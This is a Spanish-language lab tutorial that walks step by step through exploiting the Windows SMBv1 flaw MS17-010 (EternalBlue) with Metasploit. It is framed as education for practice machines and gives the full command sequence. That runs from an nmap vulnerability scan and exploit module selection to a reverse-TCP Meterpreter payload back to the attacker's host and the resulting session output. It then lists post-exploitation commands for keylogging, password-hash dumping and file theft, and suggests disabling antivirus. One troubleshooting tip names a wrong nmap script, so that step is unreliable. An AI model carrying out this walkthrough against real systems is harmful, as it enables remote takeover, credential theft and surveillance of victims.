 # 🛡️ **Guía para Explotar MS17-010 con Metasploit**
_______________________________________
## ⚠️ Aviso Legal / Disclaimer
Este ejercicio se realiza únicamente con fines educativos y de aprendizaje en un entorno controlado y autorizado.
No debe utilizarse en redes, sistemas o equipos fuera del laboratorio sin el consentimiento explícito del propietario.
El uso indebido de estas técnicas en contextos reales puede ser ilegal y tener consecuencias legales graves.
Como estudiantes y profesionales de la ciberseguridad, debemos actuar siempre de forma ética y responsable.
_______________________________________
Esta guía explica paso a paso cómo explotar la vulnerabilidad MS17-010 (EternalBlue) usando Metasploit Framework. Solo debe usarse con fines educativos o en entornos de laboratorio controlado. Explotar sistemas sin permiso es ilegal.
_______________________________________

# 🛡️ **¿Qué es MS17-010 (EternalBlue)?**

- Vulnerabilidad crítica en el protocolo SMBv1 de Windows.
-	Permite ejecución remota de código sin autenticación.
-	Afecta Windows XP, 7, 8, Server 2003, 2008, 2012 (si no está parchado).
-	Fue utilizada por el ransomware WannaCry y NotPetya.
_______________________________________
## 🧰 Requisitos del entorno de pruebas
-	💻 [Kali Linux (máquina atacante)](https://www.kali.org/get-kali/#kali-platforms)
-	🧱 [Máquina vulnerable: Windows 7 SP1 o Windows Server 2008 sin el parche MS17-010.](https://drive.google.com/file/d/11f_wsW59Dh1fGvQCNUPK70lIWzlcg44_/view)
-	🌐 Ambas máquinas deben estar en la misma red local o virtual interna.
________________________________________
## 🧪 Paso a paso para explotar MS17-010 con Metasploit
________________________________________
**🔹 1. Verifica conectividad y vulnerabilidad**
Desde Kali:
<pre> ping [IP_de_la_víctima] </pre>
Opcional (para verificar si es vulnerable):
<pre> nmap -p 445 --script smb-vuln-ms17-010 [IP_víctima] </pre>
Si dice VULNERABLE, puedes continuar.
________________________________________
**🔹 2. Iniciar Metasploit**
<pre> msfconsole </pre>

**🔹 3. Buscar el exploit**
<pre>search eternalblue</pre>
Deberías ver:
<pre> exploit/windows/smb/ms17_010_eternalblue </pre>
________________________________________
**🔹 4. Seleccionar el exploit**
<pre> use exploit/windows/smb/ms17_010_eternalblue </pre>
________________________________________
**🔹 5. Ver las opciones requeridas**
<pre> show options </pre>

Debes configurar:
-	**RHOST:** IP de la víctima
-	**LHOST:** IP del atacante
-	**PAYLOAD:** tipo de shell que quieres usar
________________________________________
**🔹 6. Configurar los parámetros**
 ```bash
set RHOST [IP_de_la_víctima]
set LHOST [IP_de_Kali]
set PAYLOAD windows/x64/meterpreter/reverse_tcp
 ```
También puedes usar  ```bash windows/meterpreter/reverse_tcp  ``` si la víctima es de 32 bits.
________________________________________
**🔹 7. Verificar configuración**
<pre> show options </pre>
________________________________________
**🔹 8. Ejecutar el exploit**
<pre> exploit </pre>
________________________________________
## ✅ **Resultado esperado**
```bash
[*] Started reverse TCP handler on 192.168.1.100:4444
[*] Sending stage ...
[*] Meterpreter session 1 opened
```
¡Ahora tienes acceso remoto a la máquina!
________________________________________
## 🧠 **¿Qué hacer con Meterpreter?**
**Comandos útiles:**
- **sysinfo:**	Información del sistema
- **getuid:**	Usuario actual
- **shell:**	Abre CMD de la víctima
- **screenshot:**	Captura pantalla
- **download archivo:**	Descargar archivos
- **keyscan_start:**	Inicia keylogger
- **hashdump:**	Extraer hashes de contraseñas
________________________________________
## 🔒 Precauciones
-	No usar este exploit en redes reales o con máquinas no autorizadas.
-	EternalBlue afecta SMBv1, un protocolo antiguo y obsoleto.
________________________________________
## ❌ **Consejos adicionales**

- Para verificar si el Windows 7 es vulnerable: ```bash nmap -p 445 --script smb-vuln-ms08-010 [IP_víctima] ```
- Si el Exploit dice "No session created"	Verifica que la víctima sea vulnerable (sin parche KB4012212 o similar)
- LHOST mal configurado	Usa la IP correcta de tu Kali, no 127.0.0.1 ni una IP de otra red
- Antivirus bloquea el payload	Desactívalo (solo en laboratorio)
- Máquina víctima no usa SMBv1	Actívalo o usa una VM XP/7 sin actualizar
________________________________________
## 📚 **Recursos**
- [Exploit-DB: MS17-010](https://www.exploit-db.com/exploits/42315)
- [Rapid7 Metasploit Docs](https://www.rapid7.com/blog/post/2017/05/20/metasploit-the-power-of-the-community-and-eternalblue/)
-	[Hack The Box](https://www.hackthebox.com/machines/blue)
- [TryHackMe](https://tryhackme.com/room/blue)
